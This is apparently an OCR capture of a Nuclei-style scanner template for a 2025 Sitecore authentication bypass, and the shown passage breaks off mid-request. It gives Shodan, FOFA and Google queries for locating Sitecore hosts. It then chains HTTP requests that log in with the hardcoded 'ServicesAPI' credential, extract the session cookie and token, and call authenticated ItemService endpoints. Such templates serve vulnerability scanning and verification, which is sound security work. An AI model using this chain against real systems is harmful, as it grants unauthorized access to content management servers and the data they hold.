 ```yaml
    product: experience_platform
    shodan-query: http.title:"sitecore"
    fofa-query: title="sitecore"
    google-query: intitle:"sitecore"
  tags: cve,cve2025,sitecore,hardcoded,credentials,authentication-bypass,kev

flow: http(1) && http(2) && http(3)

http:
  - raw:
      - |
        POST /sitecore/api/ssc/auth/login HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/json
        X-Requested-With: XMLHttpRequest

        {"domain":"sitecore","username":"ServicesAPI","password":"b"}

    extractors:
      - type: regex
        name: session_cookie
        group: 1
        regex:
          - "ASP.NET_SessionId=([^;]+)"
        internal: true

      - type: regex
        name: auth_token
        group: 1
        regex:
          - '"token":"([^"]+)"'
        internal: true

    matchers:
      - type: word
        part: body
        words:
          - "success"
          - "token"
        condition: and
        internal: true

  - raw:
      - |
        GET /sitecore/api/sitecore/ItemService/GetChildren?sc_itemid={110D559F-DEA5-42EA-9C1C-8A5DF7E70EF9}&sc_lang=en&sc_apikey= HTTP/1.1
        Host: {{Hostname}}
        Cookie: ASP.NET_SessionId={{session_cookie}}
        X-Requested-With: XMLHttpRequest

    matchers:
      - type: word
        part: body
        words:
          - "Sitecore"
          - "ItemService"
        condition: and
        internal: true

  - raw:
      - |
        GET /sitecore/api/sitecore/ItemService/GetItem?sc_itemid={110D559F-DEA5-42EA-9C1C-8A5DF7E70EF9}&sc_lang=en&sc_apikey= HTTP/1.1
```